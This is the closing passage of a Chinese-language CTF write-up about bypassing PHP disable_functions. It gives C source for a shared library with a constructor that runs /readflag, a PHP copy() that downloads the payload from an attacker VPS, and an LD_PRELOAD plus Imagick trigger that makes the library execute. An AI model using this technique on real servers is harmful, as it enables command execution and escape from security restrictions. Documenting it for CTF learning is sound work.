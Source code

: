 文件内容为

```
#define _GNU_SOURCE
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/types.h&gt;

__attribute__ ((__constructor__)) void angel (void)`{`
    unsetenv("LD_PRELOAD");
    system("/readflag &gt; /tmp/d4dabdbc73b87e364e29e60c60a92900/flag");
`}`
```

然后是上传文件，我们有很多种方法，这里可以使用

```
$upload = '/tmp/d4dabdbc73b87e364e29e60c60a92900/sky.so';
echo copy("http://vps_ip/sky.wmv", $upload);
```

[![](https://p3.ssl.qhimg.com/t01e50f6c5c30da0151.png)](https://p3.ssl.qhimg.com/t01e50f6c5c30da0151.png)

我们可以看到上传成功了

然后我们执行

```
putenv("LD_PRELOAD=/tmp/d4dabdbc73b87e364e29e60c60a92900/sky.so");
$img = new Imagick('/tmp/d4dabdbc73b87e364e29e60c60a92900/sky.wmv');
```

[![](https://p0.ssl.qhimg.com/t018261c88964a8a8e1.png)](https://p0.ssl.qhimg.com/t018261c88964a8a8e1.png)

可以看到flag已经打到了/tmp目录下

我们进行读取即可

[![](https://p3.ssl.qhimg.com/t017dc94e1a34356a45.png)](https://p3.ssl.qhimg.com/t017dc94e1a34356a45.png)



## 后记

这个题目还是比较有趣的，学习到了不少姿势~



## 参考链接

[https://shinmao.github.io/websecurity/2019/01/09/Bypass-disablefuncs-with-LDPRELOAD/](https://shinmao.github.io/websecurity/2019/01/09/Bypass-disablefuncs-with-LDPRELOAD/)<br>[https://www.tarlogic.com/en/blog/how-to-bypass-disable_functions-and-open_basedir/](https://www.tarlogic.com/en/blog/how-to-bypass-disable_functions-and-open_basedir/)<br>[https://github.com/ImageMagick/ImageMagick](https://github.com/ImageMagick/ImageMagick)<br>[https://blog.csdn.net/niexinming/article/details/52997496](https://blog.csdn.net/niexinming/article/details/52997496)

